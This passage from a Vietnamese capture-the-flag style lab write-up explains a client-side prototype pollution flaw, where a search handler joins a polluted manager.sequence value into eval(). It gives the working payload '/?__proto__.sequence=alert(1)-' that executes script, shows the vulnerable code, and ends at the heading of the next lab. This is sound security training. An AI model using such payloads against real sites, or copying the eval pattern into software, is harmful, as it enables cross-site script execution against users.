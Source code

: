 - để ý trong hàm sử lý search có dùng hàm eval():

```javascript
async function searchLogger() {
  window.macros = {};
  window.manager = {
    params: $.parseParams(new URL(location)),
    macro(property) {
      if (window.macros.hasOwnProperty(property)) return macros[property];
    },
  };
  let a = manager.sequence || 1;
  manager.sequence = a + 1;

  eval(
    "if(manager && manager.sequence){ manager.macro(" + manager.sequence + ") }"
  );

  if (manager.params && manager.params.search) {
    await logQuery("/logger", manager.params);
  }
}
```

- phương thức macro() nhận vào 1 tham số đầu vào và return ra giá trị của tham số đó đó nếu nó là thuộc tính của macro
- và nó được gọi trong eval với tham số đầu vào là thuộc tính `sequence` của manager và chúng ta có thể kiểm soát bằng prototype
- dùng payload sau để set giá trị cho sequence và solved lab

```javascript
manager.sequence = a + 1;
```

- vì sequence được nối chuỗi với 1 nên chúng ta cần ngắt nó và để javascript thực thi alert()

```javascript
/?__proto__.sequence=alert(1)-
```

![image](https://hackmd.io/_uploads/r1UdfGBNye.png)

![image](https://hackmd.io/_uploads/rJb2zGBEkg.png)

![image](https://hackmd.io/_uploads/SkTeMfSEJl.png)

## 4.Lab: Client-side prototype pollution via flawed sanitization

### Đề bài

![image](https://hackmd.io/_uploads/BkF07MSVJl.png)
